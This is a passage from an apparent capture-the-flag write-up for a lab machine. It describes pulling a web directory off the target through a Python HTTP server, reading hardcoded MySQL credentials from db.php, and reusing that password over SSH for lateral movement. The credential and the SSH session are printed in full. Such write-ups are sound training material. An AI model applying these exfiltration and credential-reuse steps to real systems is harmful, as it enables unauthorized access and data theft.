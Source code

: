 {{< vs 1 >}}

It will be easieer and quieter to dig through these files on our local system.
Tar up the directory into /tmp/html.tar, then set up a python http server on
the server. From here, we can wget the tarball to our local machine and dig
through it.

{{< vs 2 >}}

## Moving laterally

Digging through the files, we find mysql credentials for the `robert` user in
`db.php`.

```
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

{{< vs 1 >}}

As users often use the same password for multiple things, we'll see if he has
recycled his user password in the mysql connection. SSH-ing in as robert with
the newly acquired password works and we'll get our user pwn.

```
[ cvalenza@kali ] tmp $ ssh robert@10.10.10.28
robert@10.10.10.28's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Nov  9 18:00:46 UTC 2020

  System load:  0.99               Processes:             174
  Usage of /:   26.5% of 19.56GB   Users logged in:       0
  Memory usage: 43%                IP address for ens160: 10.10.10.28
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

0 packages can be updated.
0 updates are security updates.


Last login: Mon Nov  9 03:25:00 2020 from 10.10.14.75
robert@oopsie:~$ cat user.txt 
```
